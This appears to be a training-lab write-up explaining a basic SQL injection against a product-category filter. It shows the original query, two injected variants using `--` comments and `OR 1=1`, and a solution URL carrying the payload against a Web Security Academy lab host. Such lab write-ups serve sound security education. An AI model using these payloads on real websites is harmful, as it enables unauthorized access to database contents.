 
## **SQL Injection 1**

### Analysis
#### Original Query:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

-  This query selects all products from the `products` table where the `category` is 'Gifts' and the product is `released`.

#### Injected Query 1:

```sql
SELECT * FROM products WHERE category = 'Gifts' --' AND released = 1
```

- The `--` sequence is used to comment out the rest of the SQL query.
- The `AND released = 1` part is ignored, potentially displaying all products in the 'Gifts' category, regardless of their release status.

#### Injected Query 2:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1
```

- The condition `OR 1=1` is always true.
- Since `1=1` is always true, the query returns all products, not just those in the 'Gifts' category or those that are released.


### Solution 
```
https://0a9e009b03fe6a7d80663a5b004a0029.web-security-academy.net/filter?category=Gift%27+OR+1=1--
```
